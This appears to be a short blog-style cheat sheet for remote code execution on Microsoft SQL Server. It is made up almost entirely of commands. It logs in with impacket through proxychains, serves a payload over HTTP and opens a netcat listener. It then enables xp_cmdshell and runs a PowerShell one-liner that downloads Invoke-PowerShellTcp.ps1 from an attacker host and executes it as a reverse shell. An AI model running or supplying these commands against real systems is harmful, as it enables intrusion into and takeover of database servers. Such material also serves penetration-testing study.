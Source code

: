 ```yaml
---
layout: post
title:  "exploit - windows - mssql rce"
date:   2022-01-01
categories: windows
---
```


## MSSQL - RCE


## Kali Linux

### login
  
```bash

proxychains impacket-mssqlclient user@target.local

```

### python server

```bash

proxychains python3 -m http.server 81

```

### listener

```bash

nc -nlvp 4444 

```

## Target MSSQL Environment



```powershell

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
xp_cmdshell "powershell.exe iex (iwr http://myip:81/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress myip -Port 4444"
```